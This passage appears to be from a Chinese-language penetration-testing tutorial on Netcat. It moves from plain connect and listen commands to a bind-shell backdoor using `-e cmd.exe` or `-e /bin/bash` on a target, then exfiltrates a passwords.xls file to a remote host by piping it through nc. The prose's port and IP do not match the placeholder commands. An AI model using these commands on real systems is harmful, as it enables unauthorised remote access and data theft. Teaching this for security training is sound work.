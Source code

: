 Netcat 不是特定于操作系统的；它同时适用于 Windows 和 Linux 平台。在本节中，我们将看一些 Netcat 的示例和用法。

要连接到另一台机器，请执行以下操作：

```
nc <host IP address> < port> 
```

要侦听入站连接，请发出以下命令：

```
nc -l -p <port> 
```

只需将端口号替换为远程系统上任何未使用的有效端口即可。

在要从中连接的系统上，运行以下操作：

```
nc <remote host IP address> <remote port> 
```

此命令表示联系远程系统，然后连接到您已告知`nc`在远程系统上侦听的端口。

让我们再往前走一点。

现在让我们在目标系统上创建一个后门，我们可以随时利用它。该命令将根据您的目标是 Linux 还是 Windows 系统而略有不同。

对于 Windows，我们使用以下选项：

```
 nc -l -p <port number> -e cmd.exe
```

对于 Linux，我们使用以下方法：

```
nc -l -p <port number> -e /bin/bash 
```

在这两个命令中，-e 开关用于在机器连接到命令外壳时执行命令。这意味着我们将在本地看到一个 shell，我们可以使用它将命令传递到远程系统。然后，在我们的攻击系统上，我们键入以下内容：

```
nc <remote host IP address> <remote port> 
```

此时，如果您成功执行了该命令，您将看到一个命令提示符，允许您与远程系统交互。

Netcat 还可以用于从目标系统中过滤文件和数据。我们可以使用隐形连接将数据缓慢复制到本地系统。在本例中，我们将导出一个名为`passwords.xls`的文件，可能是一个带有密码的 Excel 文件。

在源系统中，我们键入以下内容：

```
type passwords.xls | nc <remote IP> <remote port>  
```

此命令表示显示`passwords.xls`文件，然后通过端口`6996`将其通过管道（`|`传输到 netcat（nc）到`192.168.1.104`远程 IP 地址。

在目标系统中，我们键入以下内容：

```
nc -l -p 6996 > passwords.xls 
```
